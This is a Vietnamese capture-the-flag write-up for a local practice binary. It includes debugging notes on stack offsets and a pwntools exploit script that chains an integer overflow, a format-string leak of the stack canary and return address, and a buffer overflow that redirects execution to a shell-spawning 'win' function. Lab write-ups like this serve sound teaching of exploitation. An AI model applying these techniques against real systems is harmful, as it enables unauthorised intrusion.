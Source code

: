# Challenge 2
## Debugging
Khi chương trình thực thi hàm `vuln`:  
- Giá trị `rbp` là `0x7ffe358b1800`.  
- Địa chỉ của buffer là `rbp - 0x60 = 0x7ffe358b17a0`.  

Khi chương trình thực thi hàm `win`:
- Giá trị của `rbp` là `0x7ffe358b1808`. Nghĩa là, nó cách `rbp` của hàm `vuln` 8 bytes.
- Đồng thời, địa chỉ của `name` trong hàm `win` nằm tại `rbp - 0x50 = 0x7ffe358b17b8` và cách buffer `0x7ffe358b17b8 - 0x7ffe358b17a0 = 0x18` bytes.  
- Từ đây, ta có thể ghi chuỗi `Nghi Hoang Khoa dep trai` từ vị trí `buffer + 0x18` để khi hàm `win` được thực thi, ta sẽ bypass được đoạn so sánh và gọi được shell.

## Exploit
Script exploit:
```python
from pwn import *


p = process('./basic')
e = ELF('./basic')

p.recvuntil(b'Nhap do dai tin nhan: ')

len_exploit = 0x80000001
p.sendline(str(len_exploit).encode())

# leak canary & return address to main
payload = b'%19$lx.%21$lx' # canary.return_addr_to_main
p.sendline(payload)

printf_result = p.recvline().strip()
# parse the printf output to get the canary and the return address to main
canary, main_return_addr = list(map(lambda x: int(x, 16), (printf_result.decode().split('.'))))

# respond to the "Ban co muon sua lai tin nhan khong?"
p.sendline(b'1')

# compute the address of the win function
win_addr = main_return_addr - 0x13dc + e.symbols['win']

payload = b'A' * 0x18 + b'Nghi Hoang Khoa dep trai' # overwrite the name
payload += b'A' * (0x60 - 0x8 - len(payload)) + p64(canary) # add junks and store canary
payload += b'A' * 0x8 # overwrite the stored rbp
payload += p64(win_addr) # overwrite return address of vuln

with open('payload.in', 'wb') as f:
    f.write(payload)

p.sendline(payload)
p.interactive()
```

Kết quả:  

![image](https://user-images.githubusercontent.com/44528004/147032164-4b0473e9-a652-4d34-bba9-c19e2ea9e018.png)
